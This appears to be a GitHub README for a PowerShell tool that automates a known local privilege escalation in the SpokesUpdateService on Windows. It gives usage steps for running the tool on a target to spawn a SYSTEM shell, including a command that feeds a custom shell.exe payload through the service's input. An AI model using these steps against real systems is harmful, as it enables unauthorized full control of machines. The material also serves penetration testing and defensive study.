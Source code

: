 # Get-Spokes3GSystem
PowerShell script to aid in the automation of local privilege escalation path with the SpokesUpdateService

Based on the original exploit found here: [https://www.exploit-db.com/exploits/47845](https://www.exploit-db.com/exploits/47845)

<br><br>

# Tested on:
Windows Server 2019

<br><br>

# Usage:
1. Download the script to the target
2. If using a custom payload file, place that in a writable directory on the target
3. Run the script
  - If using the script as-is, will spawn cmd.exe SYSTEM
  
```powershell
.\Get-Spokes3GSystem.ps1
```

```powershell
.\Get-Spokes3GSystem.ps1 -Payload "$($env:USERNAME)|advertise|C:\Windows\Temp\shell.exe"
```
